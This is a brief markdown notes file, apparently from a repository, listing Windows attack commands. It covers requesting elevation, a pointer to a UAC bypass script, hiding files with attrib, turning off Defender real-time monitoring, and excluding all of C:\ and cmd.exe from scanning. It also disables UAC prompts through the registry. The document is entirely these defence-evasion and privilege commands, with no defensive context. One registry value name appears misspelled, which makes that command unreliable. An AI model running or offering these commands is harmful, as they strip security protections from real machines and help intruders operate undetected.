 ## Notes

# Requesting elevation
```
powershell Start-Process PowerShell -Verb RunAs -FilePath
```

- Bypass UAC
  * see wget.cmd

- hide files
  * ```
    # show files
    attrib -h -s -r FILE

    # hide files
    attrib +h +s +r FILE
    ```

- Exclusions
  ```
  Set-MpPreference -DisableRealtimeMonitoring true
  Add-MpPreference -ExclusionPath C:\
  Add-MpPreference -ExclusionProcess C:\windows\system32\cmd.exe
  ```

- Disable UAC
  ```
  powershell Set-ItemProperty -Path REGISTRY::HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System -Name ConsentPromptBehaviourAdmin -Value 0
  ```